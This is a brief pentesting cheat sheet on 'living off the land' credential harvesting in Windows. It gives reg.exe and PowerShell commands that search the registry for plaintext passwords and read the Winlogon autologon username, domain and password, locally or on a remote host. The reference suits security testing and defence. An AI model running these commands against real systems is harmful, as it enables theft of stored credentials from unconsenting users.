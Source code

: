 # Living off the Land

## 01 - Command Prompt

Using a registry to query the plain text password in the key.

### 1.1 - Search for patterns

```
C:\> reg.exe query HKLM /f "password" /t REG_SZ /s /k

C:\> reg.exe query HKCU /f "password" /t REG_SZ /s /k
```

### 1.2 - Query WinLogon registry entry

2. **Method 2:** Windows Autologin (This is a better option to harvest the credentials)

```
C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon"

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" [/reg:<32 | 64>] 2>nul | findstr.exe "DefaultUserName DefaultDomainName DefaultPassword"
```

Enumerate one by one.

```
C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultUserName [/reg:<32 | 64>]

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultDomainName [/reg:<32 | 64>]

C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" /v DefaultPassword [/reg:<32 | 64>]
```

## 02 - PowerShell

### 2.1 - Search for patterns

```
PS C:\> Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | Select-Object "Default*"
```

### 2.2 - Query WinLogon registry entry

```
PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultUserName

PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultDomainName

PS C:\> Get-ItemPropertyValue -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' -Name DefaultPassword
```

---
## References

### LOFLCAB

- [LOFLCAB: reg](https://lofl-project.github.io/loflcab/Binaries/reg/)

### Pentestlab

- [Pentestlab Blog: Stored Credentials](https://pentestlab.blog/2017/04/19/stored-credentials/)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)